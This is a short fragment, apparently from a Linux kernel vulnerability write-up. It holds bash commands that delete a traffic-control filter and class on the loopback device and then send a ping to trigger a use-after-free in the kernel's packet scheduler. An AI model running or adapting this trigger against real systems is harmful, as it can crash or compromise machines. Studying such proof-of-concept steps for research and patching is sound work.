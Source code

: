 ```bash

# Class 2:1 is freed (but still accessible in the tree)
tc filter del dev lo parent 2:0 protocol ip prio 1
tc class del dev lo classid 2:1

# Trigger a UAF by adding class 2:2 to the tree
ping -I lo -f -c1 -s48 -W0.001 127.0.0.2
```
